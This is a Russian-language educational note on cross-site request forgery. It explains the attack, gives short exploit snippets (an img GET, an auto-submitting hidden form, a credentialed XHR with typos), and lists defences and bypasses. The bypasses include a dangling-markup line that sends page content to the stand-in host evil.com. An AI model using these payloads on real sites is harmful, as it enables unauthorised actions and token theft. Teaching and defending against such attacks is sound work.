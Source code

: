 # Сross Site Request Forgery

**CSRF** - атака, эксплуатирующая недостатки протокола **HTTP**. 

# Механизм

Ресурс `example.com` - доверенный, пользователь на нем авторизован,  
`evil.com` - ресурс атакующего.

1. Пользователь заходит на `evil.com`
2. В фоне отправляется запрос на `example.com`, при этом в запросе есть авторизационные данные, например **Cookie**
3. На доверенном ресурсе осуществляется вредоносная операция.

Так же к **CSRF** относят редирект на **Reflected XSS**.

## Эксплуатация

### GET

`<img src="http://bank.example.com/withdraw?account=Alice&amount=1000000&for=Bob">`

При загрузке страницы уйдет **GET** запрос на `bank.example.com`  

### POST

    <iframe style="display:none" name="csrf-frame"></iframe>
    <form method='POST' action='http://vulnerablesite.com/form.php' target="csrf-frame" id="csrf-form">
      <input type='hidden' name='criticaltoggle' value='true'>
      <input type='submit' value='submit'>
    </form>
    <script>document.getElementById("csrf-form").submit()</script>

При загрузке страницы уйдет **POST** запрос на `http://vulnerablesite.com/form.php`. При этом незаметный для пользователя, для этого используется `iframe`.

### XHR POST

    var requeest = new XMLHttpReequest();
    var data = "bla=123,blabla=312";

    request.open("POST", "http://example.com/method", true);
    request.withCredentials = true;
    request.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    request.send(data);

`withCredentials` - отправляет **Cookie**,  

`Content-type: application/x-www-form-urlencoded`,  
`Content-type: text/plain`,  
`Content-type: application/form-data` - **SOP** разрешает "простые"

## Защита

Выделяют несколько спсобов:  

* **CSRF**-токен - рассмотрим далее
* **Double submit cookie** - дублирование токена из **Cookie** в параметрах запроса
* **Content-type based** - принимать строго заданный **Content-type**, но не "простые"
* **Referer based** - проверять заголовок **Referer**, но заголовка может не быть легко, поэтому не рекомендуется
* **SameSite Cookie** - параметр **Cookie** не позволяющий отправлять их с другого домена, но поддерживается не везде

### CSRF токен

1. Генерирует высокоэнтропийный токен для пользовательской сессии
2. Доставляем надежным источником: в **DOM** или через **API**
3. Пользователь с запросом присылает токен в заголовках или параметром

В итоге для **CSRF** нужно сначала угнать токен

## Обход защиты

Наиболее простые:  

* **XSS** - все понятно
* **Subdomain Takeover** - все понятно
* **Dangink markup** - допустим можем в **XSS** пропихнуть **HTML**, но не **JS**, тогда:  

`<img src="http://evil.com/?html=`

и в итоге содержимое страницы уйдет на `evil.com` и если **CSRF**-токен был в **DOM** после уязвимого `input`, то токен будет получен.

[← Назад](../README.md)